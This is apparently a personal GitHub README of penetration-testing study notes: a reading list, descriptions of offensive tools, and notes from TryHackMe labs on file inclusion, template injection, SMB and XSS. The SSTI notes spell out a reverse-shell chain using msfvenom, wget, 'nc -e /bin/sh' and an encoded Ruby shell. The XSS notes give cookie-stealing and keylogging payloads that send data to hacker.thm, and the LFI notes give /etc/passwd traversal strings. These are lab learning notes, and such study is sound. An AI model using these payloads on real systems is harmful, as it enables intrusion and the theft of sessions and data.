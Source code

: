 ---

#   Computer Science, Cybersecurity, and Software Engineering

 <script src="https://tryhackme.com/badge/1210884"></script>

----- 

<details>

<summary>
My Reading List & Resources
</summary>

* Linux Basics for Hackers Getting Started with Networking, Scripting, and Security in Kali (OccupyTheWeb)
* Penetration Testing A Hands-On Introduction to Hacking (Weidman, Georgia)
* Becoming A Master Hacker (OccupyTheWeb)
* Competitive Programming in Python 128 Algorithms to Develop your Coding Skills (Christoph Dürr, Jill-Jênn Vie)
* Real-World Bug Hunting A Field Guide to Web Hacking (Peter Yaworski)
* Codecademy -> https://www.codecademy.com/profiles/JeremyLaratro
* TryHackme.com -> https://tryhackme.com/p/jeremylaratro
* HackTheBox.com -> 
* Hacktricks.xyz
* picoctf.org -> https://play.picoctf.org/users/jeremylaratro
* LeetCode -> https://leetcode.com/jeremylaratro/

</details>


----------


### Overview, Tools, and Pathways

>These are some of the go-to tools I use when starting a machine, CTF, challenge, etc. These tools generally fall into the 
> reconnaissance and vulnerability assessment steps. 

<details>

<summary>
>### General Enumeration | Scanning | Reconnaissance
</summary>


>>#### whatweb

>- This is often the first tool used when given a domain, to determine basic info about the web server (in cases where a domain is the given target) and to obtain the IP address.


>>####  Nmap  

>- Among the most commonly used tools, nmap allows one to scan the target machine and gain a great deal of information about it, including open ports, services, and even vulnerability assessment via
>- scripts. 


>>####  wpscan  

>- If a wordpress site is identified, wpscan is extremely useful in finding potential vulnerabilities by enumerating plugins along with various other powerful features including bruteforce attacks if xmlrpc is enabled.


>>####  Nessus  

>- Nessus is an all-around vulnerability scanner and can help identify potential vulnerabilities and avenues of attack


>>####  OWASP Zap  

>- OWASP Zap is a GUI-based scanning tool that is focused on the OWASP top 10 vulnerabilities. This is another tool that can be useful in determining potential vulnerabilities.


>>####  Dig, dnsenum, and nslookup

>- These tools, along with various others, are useful in automating the process of DNS queries and can be extremely useful in reconnaissance of a website and in understanding the ownership and relationship between domain names and IPs.</details>

>>####  Shodan
> - Extremely powerful banner search engine.

</details>

<details>
 
<summary>
>#### Exploitation and Investigation Tools
</summary>


>The following tools are ones which I have personally used in machines/labs and challenges and which I am at least fairly comfortable using and generally >fall into the foothold/exploitation category. 


>#### Web Based Exploitation

>>####  BURP Suite

>> - Powerful proxy -> intercept and modify requests, leading to a large variety of potential uses

>>####  SQLMap 

>> - SQLi scanner and exploitation tool

>>####  dirb, dirbuster, gobuster 

>> - Directory enumeration

>>####  ffuf, hydra 

>> - Web fuzzing, directory enumeration, account brute forcing

>>####  sstimap, lfimap 

>> - LFI and SSTI vulnerability scanner and exploitation tool

>>####  xsssniper

>> - XSS scanner and exploitation tool

>>####  rapidscan 

>> - Tool which essentially creates a suite of other popular exploitation tools like sqlmap, dirb, etc. 


>#### Network and Offline Exploitation

>>####  Metasploit

>> - Massive collection of known exploits, scripts, payloads, and database

>>####  hashcat

>> - GUI-accelerated password cracking tool. Extremely quick.

>>####  John the Ripper

>> - Another password cracking tool, particularly useful for it's auto-detection and john2'other' conversion scripts. 

>>####  cewl, crunch

>> - Custom password and wordlist generators


>#### Investigative Tools


>>####  binwalk, exiftools, strings, cat

>> - Linux file analysis tools

</details>


<details>

<summary>
#### Areas I'd Like to Improve
</summary>


>####  Reverse Engineering

> - One of the areas I'd specifically like to improve in is reverse engineering. This requires a solid working knowledge
> - of languages commonly used to build malware, which leads to the next area I'd like to improve -- expanding my programming knowledge.

>####  Programming

> - Currently, I am intermediate with Python, and familiar with the syntax of Java and C++ but
> - not as efficient or fluent with them as I am with Python (ie. with Leetcode, for example,
> - problems which challenge me in Python are extremely difficult for me in C++, especially. I'd
> - like to improve in C++ and Java, and also increase the number of languages that I am at least
> - comfortable with in terms of syntax. 

>#### SSTI and RCE

> - I would like to become less reliant upon tools when attempting to exploit SSTI and RCE vulnerabilities, and thus,
> - I need to improve my understanding of PHP and common web frameworks in order to be able to develop my own exploits.

</details>


----------


> Notes from labs, CTF's, and machine's on HackTheBox, TryHackMe, OWASP Juice Shop, etc.


<details>

<summary>
># LFI: Local File Inclusion and Remote File Inclusion Overview
</summary>


Notes from TryHackMe's LFI/RFI room. 


Local file inclusion is a vulnerability that can allow attackers to 

traverse the file system due to improperly or non-sanitized requests. 

This may allow an attacker to access sensitive files, ie /etc/passwd


Commonly used attack vector for LFI is '/../../'


````

get.php?file=../../../../etc/passwd

````


This allows traversal through layers of the directories to the root or target folder/directory. How many times depends on the specific system.

This can be determined by encouraging an error, ie:


````

 index.php?lang=jfbdsgd

 ````

 which then may return an error containing something along the lines of:


````

 in /var/www/html/lab2.php on line 26'

 ````

 
 The presence of 4 layers can be derived from this, and thus, 4 levels can be used for the attack:


 ```python

 index.php?lang=../../../../etc/passwd

 ```

 OS info can be derived as well:


```

 /get.php?file=../../../../boot.ini

 /get.php?file=../../../../windows/win.ini

 
 ```

 Sanitization and filter evasion:

 
 In PHP 5.3.3 and below, NULL bytes can be used to signify end of string and stop .php extension from being appended

 index.php?lang=../../../../etc/passwd%00

 
 Using a '.' can also be used to signify staying within the directory


````

 ../../../../etc/passwd/.

 ````

 Forced directory - if developer forces a directory, evasion is possible by understanding where that directory lies within the levels.

 Evasion may be as simple as adding an extra layer, ie:


````

 /../../../etc/passwd  --> /../../../../etc/passwd

 ````


 Burp suite can be used to evade any request filters that may filter or change characters

Try POST, GET 

If _REQUEST is being used, take advantage of cookies: 


````

POST /challenges////////////chall3.php HTTP/1.1

Host: 10.10.120.210

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://10.10.120.210/challenges///////////chall3.php?file=

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Cookie: =../../../etc/flag3

Connection: close

Content-Type: application/x-www-form-urlencoded

Content-Length: 25


file=../../../etc/flag3%00

```` 


--------------------------


># RFI

 
RFI is similar to LFI but involves remote inclusion of files and potentially RCE. It depends on the function:

allow_url_fopen


Overview:

Payload is hosted on attackers servers -> payload injected via HTTP requests using include function -> payload is executed


````

GET /page.php?file=

lang=http://0.0.0.0/r.elf

````


````

O:8:"_construct":1:{s:4:"cookie";s:10:"Some data!";} 

````


Tools:


````

- lfimap

- lfitester

- vailyn

````


</details> 


<details>

<summary>
Server-Side Template Injection - SSTI
</summary>


Notes from SSTI Lab on TryHackMe.


Common test-cases:


````

{7*7}

{{7*7}}'

a{{bar}}b

{var} ${var} {{var}} <%var%> [% var %]


````


1.  Start local server.


````

python3 -m http.server 80


````

2. Test functionality of python server remotely using JS and curl.


````

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://10.10.16.5")}


10.10.16.5


````

3. Create reverse shell payload and initialize a netcat listener for it. 


````

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.5.0.2 LPORT=5010 -f elf > r.elf


nc -lvnp 443


````

4. Perform the SSTI, getting RCE on the server.


````

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget 10.5.0.2:5003/r.elf")}


*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}


*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}


*{os.system("nc -e /bin/sh 10.10.16.5 5010")}

<%=system("ruby%20-rsocket%20-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.5.0.2%22%2C5007%29%29%27")%>

````


Tools:


````


- sstimap


````


</details>


<details>

<summary>
SMB Exploitation
</summary>


SMB- server message block

* Notes from TryHackMe's SMB room


Enumeration / Recon:

SMB uses port 445

A common service name is 'microsoft-ds'

After enumerating the system and finding a potential SMB exploitation pathway:

Further enumerate the SMB service using smbclient:


````


smbclient -L ip 


````


* Share names will be listed


	
Check for the guest or anonymous login, ie:

Sharenames:


````

ADMIN$

C$

WorkShares

````


After identifying potentially vulnerable share, attempt login:


````

smbclient \\\\ip\\<share>>

````


Upon entry --> 

* browse directories, look for sensitive files

* potential path traversal, pivot to other shares



</details>


<details>
<summary>
XSS
</summary>


XSS

Cross site scripting

Injection attack where a malicious payload can be injected into a web page and potentially result in an attacker getting user, staff, or other sensitive data


Check

	
~~~

<script>alert('XSS');</script>

~~~

	
Session stealing:

	
~~~

<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

~~~

Key loggger:

	
~~~

<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

~~~

	

Business Logic 

	
~~~

<script>user.changeEmail('attacker@hacker.thm');</script>

~~~


#### Stored

Stored XSS is XSS where a payload is injected into a webpage, and stored at the server level, resulting in that malicious code's presentation to other users of the site. This allows for various serious threats. 

Attack Vectors:

Comments on a blog

User profile information

Website Listings



#### Reflected

Reflected XSS, on the other hand, is XSS where the payload is reflected only on the page instance itself. Attackers must send a link to the altered page to a victim to take advantage of reflected XSS, as it is not stored at the server level.

Attack Vectors:

Parameters in the URL Query String

URL File Path 


	
#### DOM

DOM-based XSS depends on JS code executing locally and not server-side. This allows for an attacker to exploit specific JS function and then, like reflected XSS, send a link with the malicious code injected. Requires a deeper level of JS to exploit. 

Attack Vectors:

eval()


	
#### Blind

Blind XSS is XSS where malicious code is presented to other users, as in stored XSS, however you are unable to see it. In order for attackers to take advantage of this XSS, an HTML callback is incorporated into the payload.



Evasion:

	
~~~

"><script>alert(1);</script>

~~~

	
Close tag of encapsulating div:

	
~~~

</textarea><script>alert(1);</script>

~~~

	
Filter evasion:

Filter for 'script' --> sscriptcript

	
~~~

<sscriptcript>alert(1);</sscriptcript>

~~~

	
Within an image:

	
~~~

/images/cat.jpg" onload="alert(1);

~~~

	
Tools:

	
````

	
- xsshunter

- xsssniper

- xssstealer

- garud

- 0d1n

````


</details>



